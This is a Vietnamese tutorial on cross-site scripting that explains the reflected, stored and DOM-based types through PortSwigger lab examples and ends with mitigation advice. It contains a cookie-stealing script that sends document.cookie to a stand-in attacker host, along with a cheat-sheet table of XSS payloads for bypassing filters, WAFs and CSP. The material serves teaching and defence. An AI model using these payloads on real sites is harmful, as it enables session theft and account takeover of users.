# Tìm hiểu về Cross-site scripting(XSS)

## I) XSS là gì

-	Cross-site scripting (XSS) là một lỗ hổng bảo mật web cực kì phổ biến và nguy hiểm bậc nhất, luôn nằm trong top 10 OWASP. Kẻ tấn công sẽ lợi dụng lỗ hổng để chèn các mã thực thi độc hại (thường là javascript) vào trình duyệt của nạn nhân để thực thi. Hacker sẽ gửi các đoạn mã này vào các trang web và khi nạn nhân truy cập vào, trang web sẽ trở thành công cụ để phân phối mã độc đến trình duyệt người dùng thông qua nội dung trả về. Trình duyệt máy nạn nhân nhận nội dung trả về có chứa mã độc và thực thi chúng giúp cho hacker chiếm được toàn bộ chức năng, dữ liệu của người dùng.

-	Các cuộc tấn công XSS chỉ xảy ra khi người dùng truy cập vào hệ thống web, điều này có nghĩa là các mã độc vẫn an toàn khi được lưu trong hệ thống, mục tiêu của các mã độc này là nhắm đến người dùng chứ không phải hệ thống

-	Cuộc tấn công XSS hoàn toàn có thể xảy ra trong VBScript, ActiveX, Flash hay thậm chí là CSS. Tuy nhiên, chúng không phổ biến bằng Javascript, chủ yếu là bởi vì javascript là nền tảng cho hầu hết các trải nghiệm của người dùng trên internet.

## II) Nguyên nhân xảy ra XSS

-	Nguyên nhân chính của loại tấn công này là không xác thực đầu vào dữ liệu người dùng hoặc xác thực không hợp lí, dữ liệu nhận từ nguồn không đáng tin cậy và xâm nhập vào dữ liệu đầu ra.

## III) Các lỗ hổng đó có ảnh hưởng như thế nào đến người dùng, kẻ tấn công có thể tận dụng những lỗ hổng đó để làm gì?

-	Thông thường phần lớn các cuộc tấn công XSS dùng để ăn cắp cookie, session token, và các thông tin khác. Hacker có được cookie hoặc session có thể mạo danh người dùng và thực hiện toàn bộ những truy cập mà người dùng được phép (đăng nhập, đọc dữ liệu riêng tư, thay đổi dữ liệu, mua hàng, nhắn tin, nắm bắt thông tin đăng nhập, …).

-	Javascript có thể đọc DOM trình duyệt và tạo ra các chỉnh sửa tùy ý cho nó.

-	Javascript có thể dùng object XMLHttpRequest để gửi truy vấn HTTP với các nội dung tuỳ ý tới các điểm đích tùy ý.

-	Javascript trong các trình duyệt hiện đại có thể dùng HTML5 APIs. Ví dụ, nó có thể truy cập tới vị trí địa lý của người dùng, webcam, microphone, và thậm chí là cả những file dữ liệu cụ thể trên hệ điều hành của người dùng.

## IV) Các kiểu tấn công XSS chính

### 1) Reflected XSS

-	Đây là là kiểu tấn công cơ bản nhất, dựa trên http request. Khi một trang web, ứng dụng web nhận dữ liệu từ một request và đưa dữ liệu đó vào respone mà không thực hiện kiểm tra dữ liệu.

-	Dựa vào điều này, hacker có thể gửi một url có chứa request là một mã độc hại đến nạn nhân, khi người dùng nhấn vào url này, ứng dụng web trả về nội dung có chứa mã thực thi độc hại và thực hiện chúng trên trình duyệt



-	Điểm đặc biệt của loại tấn công này là người dùng phải nhấn vào link có chứa url tấn công từ hacker, vì vậy chỉ cần có chút đề phòng và không nhấn vào các đường link lạ thì khả năng bị dính không cao

Ví dụ về Reflected XSS: Mượn từ  [https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

Chúng ta có 1 trang web như thế này



Những gì người dùng search sẽ được dùng lệnh get và sao đó trả về trong phần `<h1>`5 search result for ‘’`</h1>` mà không hề kiểm tra dữ liệu hay mã hóa



Chúng ta sẽ thử thay request như sau



Lúc này đoạn page source sẽ là



Ta có thể thấy đoạn `<script>alert(1)</script>` đã đươc thực thi, như vậy chỉ cần gửi nguyên đường link bao gồm phần `“?search=…”` là ta có thể thực thi đoạn script đó trên trình duyệt người dùng. Thực tế có thể nguy hiểm hơn như sau

`<script>var i=new Image; i.src=”http://hacker-site.net/”+document.cookie;</script>`

Đoạn script này khi thực thi sẽ gửi truy vấn đến trang `http:hacker-site.net/` với phần đuôi là cookie người dùng, từ đây hacker có thể lấy được cookie và tiến hành đăng nhập

### 2) Stored XSS

-	Đây là kiểu tấn công chính thứ 2 của XSS, xảy ra khi ứng dụng web không kiểm tra đầu vào của dữ liệu lưu trữ. 

-	Hacker có thể dựa vào điều này để gửi các mã độc lưu vào trong database của ứng dụng web, sau khi người dùng truy cập đến các thông tin này thì ứng dụng web sẽ gửi thông tin có chứa mã độc về và thực thi trên máy nạn nhân



-	Điểm nguy hiểm của loại tấn công này là nó nhắm đến nhiều nạn nhân hơn, và các nạn nhân ở thế bị động hơn rất nhiều. Thay vì phải lừa nạn nhân nhấn vào url chứa mã độc hại thì hacker chỉ việc ngồi chờ nạn nhân truy xuất đến  ứng dụng web đã bị tiêm mã độc hại. Còn với nạn nhân, việc này là hoàn toàn bình thường vì họ không hề hay biết dữ liệu mình truy cập đã bị nhiễm độc. 

-	Stored XSS  rất nguy hiểm vì nạn nhân không hề có sự chủ động. Chỉ cần truy cập vào ứng dụng web đã bị tấn công Stored XSS thì nạn nhân đã bị tấn công rồi.

Ví dụ về Stored XSS: mượn từ [https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

Ta có 1 trang web cho phép gửi bình luận và hiển thị bình luận lên trình duyệt của người dùng khác



Vì dữ liệu cũng không được kiểm tra đầu vào nên ta có thể comment mã script độc lên, như vậy mỗi lần có người truy cập đến blog này, phần script sẽ được tải về và thực thi trên trình duyệt của người dùng. Ví dụ sau khi comment đoạn script trên



Hacker có thể sử dụng đoạn script như phần Reflected XSS để lấy cookie người dùng

### 3) DOM Based XSS

-	Đây là kiểu tấn công chính thứ 3 của XSS, xảy ra khi ứng dụng web chứa javascript ở máy khách nhận dữ liệu không an toàn và ghi lại chúng vào DOM(cụ thể là html). Kiểu tấn công này khá giống với Reflected XSS, khác ở chỗ Reflected XSS là việc xử lí dữ liệu ở phía máy chủ (server) còn DOM Based XSS là việc xử lí dữ liệu ở phía máy khách (client).

-	Nếu như có một trường nhập input từ phía client, những input đó sau đó không được xử lí mà được ghi thẳng vào DOM. Thì xảy ra lỗi DOM Based XSS. Nếu các hacker có thể kiểm soát được trường input thì có thể lợi dụng điều này để thực thi mã độc.



-	Thông thường, trường đầu vào yêu cầu một phần của http request (như query string). Vì vậy nó cho phép các hacker tấn công bằng một url độc hại, tương tự tấn công với Reflected XSS.

Ví dụ về DOM XSS: Mượn từ [https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

Ta có một trang html với đoạn code như sau



Sau khi nhập vào form search thì input được ghép vào sau chuỗi  và ghi thẳng phần thẻ  này vào code trang web mà không kiểm tra dữ liệu. Giả sử nếu hacker nhập a" onload="alert(1) thì đoạn tag sau sẽ được thêm vô trình duyệt

``

Lúc này khi ảnh load thì hàm alert(1) sẽ được gọi, ta có thể thay hàm alert thành bất kì đoạn code javascript nào để thực thi trên trình duyệt nạn nhân



Như vậy chỉ cần nạn nhân click vào đường link tương tự như vậy thì hacker sẽ thực thi được script trên trình duyệt máy nạn nhân

## V) Một số Cheatsheet XSS

|Loại|	Mã|	Giải thích|
|Event handlers that do not require user interaction|	`<body onload=alert(1)>`|	Thực thi khi elenment được tải|
|Event handlers that do require user interaction|	`<xss onclick="alert(1)">test</xss>`|	Thực thi khi elenment được click|
|Restricted characters|	`<script>onerror=alert;throw 1</script>`|	Sử dụng khi không cho phép dấu “(“|
|Frameworks|	`<xss class=progress-bar-animated onanimationstart=alert(1)>`|	Thực thi khi bắt đầu animation bootsrtap |
|Protocols|	`<iframe src="javascript:alert(1)">`|	Thực thi khi sử dụng iframe javascript|
|Other useful attributes|	`<form action="javascript:alert(1)"><input type=submit id=x></form><label for=x>XSS</label>`|	Thực thi khi nhấn submit|
|Special tags|	`<meta http-equiv="refresh" content="0; url=//portswigger-labs.net">`|	Chuyển hướng đến một miền khác|
|Encoding|	`<a href="javascript:x='%27-alert(1)-%27';">XSS</a>`|	Bypass URL encoding|
|Obfuscation|	`<script src=data:text/javascript;base64,YWxlcnQoMSk=></script>`|	Data protocol inside script src with base64|
|Client-side template injection|	`{ {constructor.constructor('alert(1)')()} }` |	Sử dụng trong vul.js|
|AngularJS sandbox escapes reflected|	`{ {constructor.constructor('alert(1)')()} }` |	Sử dụng trong angular.js|
|DOM based AngularJS sandbox escapes|	`constructor.constructor('alert(1)')()`|	Tấn công Dome based Angular.js|
|AngularJS CSP bypasses	|`<input autofocus ng-focus="$event.path\|orderBy:'[].constructor.from([1],alert)'">`	|Dùng trong AngularJS CSP bypasses|
|Scriptless attacks|	`<link rel=stylesheet href="//evil?`	|Link href stylesheet độc hại
|Polyglots|	`javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`|	Polyglot payload 1|
|WAF bypass global objects|	`';window['ale'+'rt'](window['doc'+'ument']['dom'+'ain']);//`	|XSS into a JavaScript string: string concatenation (window)|
|Content types|	`<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>`|	Sử dụng cho xss với X-Content-Type-Options |
|Response content types|	`<script>alert(document.domain)</script>`|	Sử dụng khi có thể nhúng vào content-type header|
|Prototype pollution	|`<script>Object.prototype.innerHTML = '';</script>`	|Sử dụng cho Embedded Video|
|Classic vectors (XSS crypt)|	``	|Nhúng vào image source |

## VI) Khắc phục XSS

### 1) Trong code

-	Xác thực đầu vào chặt chẽ: Mỗi ngôn ngữ lập trình web khi update lên các phiên bản mới đều có các thư viện hỗ trợ việc xác thực dữ liệu để phòng tránh các lỗi injection như SQL, XSS, … Sử dụng các thư viện để xác thực input để giảm thiểu việc nhập mã độc hại

  Ví dụ với PHP: sử dụng htmlentities để valid input cho ngữ cảnh HTML

`<?php echo htmlentities($input, ENT_QUOTES, 'UTF-8');?>`

-	Lọc các kí tự không hợp lệ

  Ví dụ: Chỉ cho phép comment trên một trang blog là kí tự hoặc số, …

-	Mã hóa dữ liệu: sử dụng các hàm encode có sẵn trong các ngôn ngữ hoặc framework để mã hóa

  Ví dụ:

  Trong ngữ cảnh HTML

    < chuyển thành `&lt;`
  
    \> chuyển thành `&gt;`
   
  Trong ngữ cảnh JavaScript string

    < chuyển thành \u003c
  
    \> chuyển thành \u003e

-	Giảm thiểu sử dụng các thư viện bên thứ ba khi chưa hiểu rõ đảm bảo an toàn vì các thư viện bên thứ ba có thể bị lỗi XSS.

- Không nên cho người dùng sử dụng input là các tag html, trừ khi bắt buộc các trang blog, lúc đó hãy giới hạn lại những tag được phép

-	Ngoài ra, để phòng tránh DOM-Based XSS thì cần kiểm tra input ở ngay phía client

  Ví dụ: 
```
function htmlEncode(str){
  return String(str).replace(/[^\w. ]/gi, function(c){
     return '&#'+c.charCodeAt(0)+';';
  });
}
```

  Sau đó sử dụng hàm để valid input trước khi đưa vào bằng innerHTML

`<script>document.body.innerHTML = htmlEncode(untrustedValue)</script>`

### 2) Trong thực tế
  
-	Sử dụng các Web Application Firewall giúp hỗ trợ việc phòng tránh các cuộc tấn công XSS bằng cách cài đặt quét các url query, headers, html body, …Mỗi WAF sẽ có cách configure khác nhau

  Ví dụ về cài đặt rule với Fortinet WAF


  
-	Chỉ cho phép chạy javascripts, load ảnh, load iframe,… từ một số nguồn đáng tin cậy (thêm  header Content-Security-Policy vào mỗi respone)

  Ví dụ: `script-src 'self'` chỉ cho phép chạy javascript từ nguồn cùng origin
  
-	Lập một blacklist để ngăn chặn các IP đã từng thực hiện tấn công XSS
  
## VII) Tham khảo
  
[https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
  
[https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
 
[https://portswigger.net/web-security/cross-site-scripting/content-security-policy#mitigating-xss-attacks-using-csp](https://portswigger.net/web-security/cross-site-scripting/content-security-policy#mitigating-xss-attacks-using-csp)

[https://portswigger.net/web-security/cross-site-scripting/preventing](https://portswigger.net/web-security/cross-site-scripting/preventing)
